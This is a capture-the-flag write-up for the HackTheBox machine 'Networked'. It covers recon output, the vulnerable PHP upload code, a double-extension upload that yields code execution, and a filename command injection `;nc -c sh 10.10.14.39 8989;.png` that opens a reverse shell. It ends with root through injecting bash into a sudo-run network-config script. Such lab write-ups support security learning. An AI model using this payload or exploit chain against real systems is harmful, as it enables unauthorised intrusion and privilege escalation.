










# Networked

## Machine Info


## Recon

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|storage-misc
Running (JUST GUESSING): Linux 5.X|3.X|4.X (91%), Crestron 2-Series (86%), HP embedded (85%), Oracle VM Server 3.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:oracle:vm_server:3.4.2 cpe:/o:linux:linux_kernel:4.1
Aggressive OS guesses: Linux 5.0 (91%), Linux 3.10 - 4.11 (90%), Linux 3.2 - 4.9 (90%), Linux 5.1 (90%), Linux 3.18 (87%), Crestron XPanel control system (86%), Linux 3.16 (86%), HP P2000 G3 NAS device (85%), Oracle VM Server 3.4.2 (Linux 4.1) (85%)
No exact OS matches for host (test conditions non-ideal).
```

- path recon

```sh
$ gobuster dir -u http://networked.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://networked.htb/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 237] [--> http://networked.htb/uploads/]
/backup               (Status: 301) [Size: 236] [--> http://networked.htb/backup/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

$ gobuster dir -u http://networked.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -t 64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://networked.htb/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 229]
/.htaccess            (Status: 403) [Size: 211]
/.                    (Status: 200) [Size: 229]
/upload.php           (Status: 200) [Size: 169]
/.html                (Status: 403) [Size: 207]
/photos.php           (Status: 200) [Size: 1302]
/.htpasswd            (Status: 403) [Size: 211]
/.htm                 (Status: 403) [Size: 206]
/.htpasswds           (Status: 403) [Size: 212]
/.htgroup             (Status: 403) [Size: 210]
/.htaccess.bak        (Status: 403) [Size: 215]
/lib.php              (Status: 200) [Size: 0]
/.htuser              (Status: 403) [Size: 209]
/.ht                  (Status: 403) [Size: 205]
/.htc                 (Status: 403) [Size: 206]
/.htaccess.old        (Status: 403) [Size: 215]
/.htacess             (Status: 403) [Size: 210]
Progress: 37050 / 37051 (100.00%)
===============================================================
Finished
===============================================================
```

- backup file downloading, `http://10.10.10.146/backup/backup.tar`
  - lib.php
  - upload.php

```php
$ cat lib.php
<?php

function getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}

function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}

function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}

function file_mime_type($file) {
  $regexp = '/^([a-z\-]+\/[a-z0-9\-\.\+]+)(;\s.+)?$/';
  if (function_exists('finfo_file')) {
    $finfo = finfo_open(FILEINFO_MIME);
    if (is_resource($finfo)) // It is possible that a FALSE value is returned, if there is no magic MIME database file found on the system
    {
      $mime = @finfo_file($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = @mime_content_type($file['tmp_name']);
    if (strlen($file_type) > 0) // It's possible that mime_content_type() returns FALSE or an empty string
    {
      return $file_type;
    }
  }
  return $file['type'];
}

function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }
}

function displayform() {
?>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post" enctype="multipart/form-data">
 <input type="file" name="myFile">
 <br>
<input type="submit" name="submit" value="go!">
</form>
<?php
  exit();
}


?>
```

```php
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

- `http://10.10.10.146/index.php` -> hint: upload file exploit

```html
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->
</body>
</html>
```

- gallery here, `http://10.10.10.146/photos.php`



## Foothold

### File Upload

- **POC**
  - filename check -> `.png` is necessary
  - `Content-Type` can be either `image/png` or `application/x-httpd-php`
  - `http://10.10.10.146/uploads/10_10_14_39.php.png?cmd=id`, the image page can be executed like a php file






- **EXP PHP RShell**, `http://10.10.10.146/uploads/10_10_14_39.php.png`





## Privilege Escalation

### apache -> guly

- enum

```sh
sh-4.2$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
sh-4.2$ cat check_attack.php
cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

```php
function getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}

function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}
```

- if `$msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";` if filename is not a valid ip address, rather than a command -> **command injection**
- getnameCheck functions shows that the filename needs a ext flag like **.png**

- exp: `;nc -c sh 10.10.14.39 8989;.png`





### guly -> root

- enum: `sudo -l`
- `/sbin/ifup guly0` will init a network interface guly0

```sh
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

- ordinary input:



- exploit input by add a `bash` into interface config:





## Exploit Chain

port+path recon -> file upload -> apache shell -> scheduled task -> touch file for command injection -> guly shell -> sudo -l -> changename shell script -> input bash into config file -> root shell
